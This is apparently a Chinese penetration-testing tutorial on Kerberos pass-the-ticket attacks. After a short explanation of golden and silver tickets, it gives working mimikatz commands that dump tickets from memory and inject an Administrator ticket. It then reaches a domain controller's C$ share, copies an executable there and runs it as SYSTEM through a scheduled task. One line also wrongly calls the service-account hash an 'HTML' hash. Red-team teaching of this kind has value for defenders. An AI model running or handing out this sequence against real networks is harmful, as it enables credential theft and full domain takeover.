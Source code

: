 ## 票据传递介绍

要想使用mimikatz的*哈希传递*功能必须具有*本地管理员权限*。

mimikatz同样提供了 *不需要本地管理员权限*进行横向渗透测试的方法，例如票据传递( PassThe Ticket,PTT)

*票据传递*是基于*kerberos认证*的一种攻击方式，常用来做后渗透权限维持。

黄金票据攻击利用的前提是得到了域内*krbtgt用户*的*NTLM哈希*或AES-256的值。

白银票据攻击利用的前提是得到了*域内服务账号*的*HTML哈希*或AES-256的值。

票据传递攻击一般分为两种

1. 自己制作票据
2. 传递内存中的票据

## 实验复现

### 导出内存的票据

```
mimikatz "privilege::debug" "sekurlsa::tickets /export"
```

![image-20230308131048246](https://img.gyxnb.top/img/image-20230308131048246.png)

**执行以上命令后,会在当前目录下出现多个服务的票据文件,例如krbtgt. cifs、 ldap等。 **

### 清除内存中的票据

```
shell klist purge
mimikatz kerberos::purge
两个都是清除票据
```

![image-20230308132051424](https://img.gyxnb.top/img/image-20230308132051424.png)

### 将高权限的票据文件注入内存

```
mimikatz kerberos::ptt [0;37522d1]-2-0-60a10000-Administrator@krbtgt-HACK.COM.kirbi
```

### 访问机器(mb用户没有过uac)

```
dir \\dc.hack.com\c$
```

### 上线域控

```
net use \\dc.hack.com
copy C:\Users\mb\Desktop\wanli.exe \\dc.hack.com\C$
shell schtasks /create /s dc.hack.com /tn test /sc onstart /tr C: \wanli.exe /ru system /f
shell schtasks /run /s dc.hack.com /i /tn "test"
```
